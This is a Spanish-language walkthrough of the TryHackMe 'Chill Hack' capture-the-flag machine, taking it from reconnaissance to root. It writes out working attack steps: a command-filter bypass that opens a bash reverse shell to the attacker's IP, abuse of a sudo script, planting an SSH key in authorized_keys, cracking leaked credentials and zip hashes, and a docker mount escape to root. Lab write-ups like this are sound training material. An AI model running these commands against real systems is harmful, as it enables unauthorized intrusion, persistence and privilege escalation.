

# Chill Hack - TryHackMe

## Reconocimiento

Vamos a escanear la máquina objetivo para identificar los servicios que están corriendo. Usaremos `nmap` para esto:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.130.162.182

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 62
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

Veamos que servicios y versiones están corriendo en los puertos abiertos:

```bash
nmap -sCV -p21,22,80 10.130.162.182

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.154.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:ea:d8:f1:1f:69:b6:2c:59:9c:ed:7a:3c:e1:3e:86 (RSA)
|   256 9b:6e:6e:af:6c:21:02:f8:f8:29:b0:f8:8f:f7:c1:a3 (ECDSA)
|_  256 1a:c7:a0:be:a3:96:03:57:84:52:39:f0:0e:45:20:2b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que hay un servidor FTP corriendo vsftpd 3.0.5, un servidor SSH corriendo OpenSSH 8.2p1 y un servidor web corriendo Apache httpd 2.4.41 en un sistema Ubuntu.

Al entrar en http://10.130.162.182/ vemos lo siguiente:


Si nos metemos al servidor FTP con un usuario anónimo, podemos ver que hay un archivo llamado `note.txt` que contiene lo siguiente:

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Nos dice que hay un filtrado de cadenas en los comandos, lo que nos puede dar una pista de que hay algún tipo de inyección de comandos o SQL en la aplicación web.

Vamos a realizar un escaneo de directorios con `gobuster` para ver si encontramos algo interesante:

```bash
gobuster dir -u http://10.130.162.182 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

/css                  (Status: 301) [Size: 314] [--> http://10.130.162.182/css/]
/images               (Status: 301) [Size: 317] [--> http://10.130.162.182/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.130.162.182/js/]
/fonts                (Status: 301) [Size: 316] [--> http://10.130.162.182/fonts/]
/secret               (Status: 301) [Size: 317] [--> http://10.130.162.182/secret/]
```

Si nos metemos en http://10.130.162.182/secret/ vemos que hay una caja que nos permite ejecutar comandos en el servidor. 


Probamos el comando `ls` y hemos caido en una trampa ya que nos devuelve un mensaje amenazante:


Si le damos a ejecutar sin nigun comando nos sale una imagen diferente, lo que nos indica que hay algún tipo de filtrado de cadenas en los comandos que podemos ejecutar.


Si le ponemos `whoami` nos devuelve el usuario con el que estamos ejecutando los comandos, que es `www-data`.



Hay comandos que no podemos ejecutar y otros que sí.

Vamos a probar el típico one-liner de bash para ver si podemos entablar una reverse shell:

```bash
bash -i >& /dev/tcp/192.168.154.96/443 0>&1
```

No nos deja.

Si ponemos `hola ls` nos detecta y nos devuelve un mensaje amenazante por lo que vamos a interceptar la petición con Burp Suite para ver que está pasando.

La petición se manda de la siguiente manera:

```
POST /secret/ HTTP/1.1
Host: 10.130.162.182
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://10.130.162.182
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://10.130.162.182/secret/
Upgrade-Insecure-Requests: 1
Priority: u=0, i


command=whoami
```

Si cambiamos a `command=ls` nos devuelve el mensaje amenazante, tampoco nos deja usar python.

## Explotación

Nos deja usar `echo` por lo que vamos a intentar hacer un reverse shell con `echo` y `/bin/bash` pues este ultimo también nos deja usarlo.

```bash
echo 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1' | /bin/bash
```

Obtenemos la reverse shell en nuestro listener de netcat:

```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.130.162.182 44814
bash: cannot set terminal process group (841): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-130-162-182:/var/www/html/secret$ 
```

## Escalada de privilegios

Vamos a hacer un tratamiento de la TTY:

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

Vemos que en /home hay varios usuarios:

```bash
www-data@ip-10-130-162-182:/home$ ls -la
total 24
drwxr-x---  2 anurodh anurodh 4096 Oct  4  2020 anurodh
drwxr-xr-x  5 apaar   apaar   4096 Oct  4  2020 apaar
drwxr-x---  4 aurick  aurick  4096 Oct  3  2020 aurick
drwxr-xr-x  3 ubuntu  ubuntu  4096 Jul 12 20:20 ubuntu
```

En ubuntu no hay nada y en aapar hay un archivo llamado `local.txt` que no podemos leer porque no tenemos permisos.

Vamos a probar si funciona un abuso de grupos con el comando `id`, 

```bash
www-data@ip-10-130-166-235:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Nada, vamos a hacer un `sudo -l` para ver si podemos ejecutar algún comando como root:

```bash
www-data@ip-10-130-166-235:/tmp$ sudo -l

User www-data may run the following commands on ip-10-130-166-235:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Vemos que podemos ejecutar el script `/home/apaar/.helpline.sh` como el usuario `apaar` sin necesidad de contraseña. 

```bash
www-data@ip-10-130-166-235:/home/apaar$ cat .helpline.sh 
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

```

Vemos que el script nos pide un nombre de usuario y un mensaje, y luego ejecuta el mensaje como un comando. Esto significa que podemos ejecutar cualquier comando como el usuario `apaar`.

Tenemos que pivotar a `apaar`, vemos que en su home podemos entrar a .ssh y vemos lo siguiente:

```bash
www-data@ip-10-130-166-235:/home/apaar/.ssh$ ls -la
-rw-r--r-- 1 apaar apaar  565 Oct  3  2020 authorized_keys
```

Desde el usuario `www-data` podemos ejecutar el script `.helpline.sh` como `apaar`, por lo que vamos a ejecutar un comando para obtener una shell como `apaar`:

```bash
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: aapar
Hello user! I am aapar,  Please enter your message: /bin/bash -p
whoami
apaar
cd /home/apaar
cat local.txt
```

Conseguimos leer el archivo `local.txt` y obtenemos la primera bandera.

Me voy a meter en las authorized_keys una key propia para poder entrar como `apaar` directamente con ssh:

```bash
ssh-keygen -t rsa -b 4096 -f millave
```

```bash
cat millave.pub >> /home/apaar/.ssh/authorized_keys
```

```bash
ssh -i millave apaar@10.130.150.157
export TERM=xterm
```

Entramos más comodamente como `apaar` y vamos a ver si podemos escalar privilegios a root.

```bash
find / -perm -4000 2>/dev/null

# Podríamos tirar de pkexec, pero vamos a hacerlo de otra forma.
```

Vamos a subir el script de lse.sh creando un servidor web en nuestra máquina y descargando el script en la máquina objetivo.

```bash
python3 -m http.server 80
```

```bash
wget http://192.168.154.96/lse.sh
```

No nos reporta nada interesante.

También vemos las capabilities;

```bash
getcap -r / 2>/dev/null
```

Pero no nos reporta nada que nos pueda ayudar, probemos con linpeas:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Vemos vulnerabilidades como Pack2TheRoot, PwnKit y creo que voy a tirar por esta última

Antes de tirar por ahi probemos un par de cosas, como por ejemplo ver la versión de sudo:

```bash
sudo --version
Sudo version 1.8.31
```

Al final me di cuenta de que si ejecutamos el script `.helpline.sh`  de esta forma:

```bash
sudo -u apaar -g root /home/apaar/.helpline.sh

id
uid=1001(apaar) gid=0(root) groups=0(root),1001(apaar)
```

Estamos en el grupo root, por lo que podemos ejecutar cualquier comando como root, esto es porque la regla de (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh nos dice que podemos ejecura como usuario `apaar` y como cualquier grupo.

He buscado en todos los lados y no encuentro nada

Cabe destacar que los puertos 9001 y 3306 están abiertos.

En /var/www/files hay varios archivos interesantes:

**index.php**

```php
<html>
<body>
<?php
	if(isset($_POST['submit']))
	{
		$username = $_POST['username'];
		$password = $_POST['password'];
		ob_start();
		session_start();
		try
		{
			$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
			$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
		}
		catch(PDOException $e)
		{
			exit("Connection failed ". $e->getMessage());
		}
		require_once("account.php");
		$account = new Account($con);
		$success = $account->login($username,$password);
		if($success)
		{
			header("Location: hacker.php");
		}
	}
?>
<link rel="stylesheet" type="text/css" href="style.css">
	<div class="signInContainer">
		<div class="column">
			<div class="header">
				<h2 style="color:blue;">Customer Portal</h2>
				<h3 style="color:green;">Log In<h3>
			</div>
			<form method="POST">
				<?php echo $success?>
                		<input type="text" name="username" id="username" placeholder="Username" required>
				<input type="password" name="password" id="password" placeholder="Password" required>
				<input type="submit" name="submit" value="Submit">
        		</form>
		</div>
	</div>
</body>
</html>
```

Vemos que en index.php hay una conexión a una base de datos MySQL con el usuario root y la contraseña `!@m+her00+@db`, por lo que podemos conectarnos a la base de datos y ver que hay en ella.

```bash
mysql -u root -p
Enter password: !@m+her00+@db
```

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
```

```sql
mysql> use webportal;
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
mysql> select * from users
    -> ;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

Acabamos de conseguir la contraseña de los usuarios, están en MD5, por lo que podemos crackearlas.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt

masterpassword
dontaskdonttell
```

Estas credenciales no me sirven para pivotar de usuario, voy a ver unas imagenes interesantes que hay en /var/www/files/images

No sabía nada de esteganografía, pero me puse a investigar, hay un comando llamado `steghide` que nos permite extraer información de imágenes, por lo que vamos a probarlo con la imagen hacker-with-laptop_23-2147985341.jpg

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg

anot los datos extraidos e/"backup.zip".
```

Nos da un zip llamado `backup.zip`, pero nos pide una contraseña, tenemos otro archivo llamado 002d7e638fb463fb7a266f5ffc7ac47d.gif, no funciona el steghide con este archivo, pero si lo abrimos con un editor

Podemos hacer fuerza bruta pues el zip usa zipcrypt:

```bash
7z l -slt backup.zip

Path = backup.zip
Type = zip
Physical Size = 750

----------
Path = source_code.php
Folder = -
Size = 1211
Packed Size = 554
Modified = 2020-10-03 05:20:46
Created = 
Accessed = 
Attributes =  -rw-r--r--
Encrypted = +
Comment = 
CRC = 69DC82F3
Method = ZipCrypto Deflate
Characteristics = UT:MA:1 ux : Encrypt Descriptor
Host OS = Unix
Version = 20
Volume Index = 0
Offset = 0
```

Vamos a sacar el hash de la contraseña del zip y vamos a intentar crackearlo con john:

```bash
zip2john backup.zip > yeah.txt
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3 ts=2297 cs=2297 type=8

john --wordlist=/usr/share/wordlists/rockyou.txt yeah.txt

pass1word        (backup.zip/source_code.php)
```

Al extraer el zip vemos el archivo source_code.php, que contiene lo siguiente:

```php
html>
<head>
    Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
            Email: <input type="email" name="email" placeholder="email"><br><br>
            Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
        </form>
<?php
        if(isset($_POST['submit']))
    {
        $email = $_POST["email"];
        $password = $_POST["password"];
        if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
        { 
            $random = rand(1000,9999);?><br><br><br>
            <form method="POST">
                Enter the OTP: <input type="number" name="otp">
                <input type="submit" name="submitOtp" value="Submit">
            </form>
        <?php   mail($email,"OTP for authentication",$random);
            if(isset($_POST["submitOtp"]))
                {
                    $otp = $_POST["otp"];
                    if($otp == $random)
                    {
                        echo "Welcome Anurodh!";
                        header("Location: authenticated.php");
                    }
                    else
                    {
                        echo "Invalid OTP";
                    }
                }
        }
        else
        {
            echo "Invalid Username or Password";
        }
		}
?>
</html>
```

Vemos que el código PHP compara la contraseña ingresada con una cadena codificada en base64. La cadena codificada es `IWQwbnRLbjB3bVlwQHNzdzByZA==`

```bash
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d; echo
!d0ntKn0wmYp@ssw0rd
```

Analizando el código, vemos que hace falta un OTP para poder autenticarse.
Antes probé a hacer `curl 127.0.0.1:9001` y me devolvio esto:

```html
<html>
<body>
<link rel="stylesheet" type="text/css" href="style.css">
	<div class="signInContainer">
		<div class="column">
			<div class="header">
				<h2 style="color:blue;">Customer Portal</h2>
				<h3 style="color:green;">Log In<h3>
			</div>
			<form method="POST">
				               		<input type="text" name="username" id="username" placeholder="Username" required>
				<input type="password" name="password" id="password" placeholder="Password" required>
				<input type="submit" name="submit" value="Submit">
        		</form>
		</div>
	</div>
</body>
</html>
```

Vemos que hay un servicio corriendo en el puerto 9001, que es un portal de login, y que nos pide un usuario y una contraseña, pero probé con los de la base de datos y no me funcionaron, creo que era un rabbit hole

Probamos a hacer un `su - anurodh` y efectivamente la contraseña de anurodh es `!d0ntKn0wmYp@ssw0rd`.

```bash
anurodh@ip-10-129-148-213:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Vemos que el usuario `anurodh` pertenece al grupo `docker`, por lo que podemos hacer una escalada de privilegios a root usando docker.

```bash
docker run --rm -dit -v /:/mnt/root --name privsec alpine
docker exec -it privsec sh

/ # whoami
root
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cd /mnt/root
/mnt/root # cd root/
/mnt/root/root # ls
proof.txt  snap
/mnt/root/root # cat proof.txt
```

Vemos la flag de root y hemos completado el reto.

```
Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
					|  Anurodh Acharya |
					---------------------

	              		    Let me know if you liked it.

Twitter
	- @acharya_anurodh
Linkedin
	- www.linkedin.com/in/anurodh-acharya-b1937116a
```